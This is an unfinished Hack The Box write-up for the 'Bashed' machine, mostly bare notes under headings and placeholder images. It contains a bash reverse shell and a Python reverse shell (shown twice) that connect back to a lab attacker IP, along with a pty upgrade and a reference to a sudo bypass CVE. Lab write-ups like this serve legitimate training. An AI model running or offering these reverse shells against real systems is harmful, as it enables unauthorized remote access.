 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集

### 1、TCP Scan

![](./1.png)
已经拿下，回头补文。
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

ls -a

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

su: must be run from a terminal

python -c 'import pty; pty.spawn("/bin/bash")'

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

CVE-2019-14287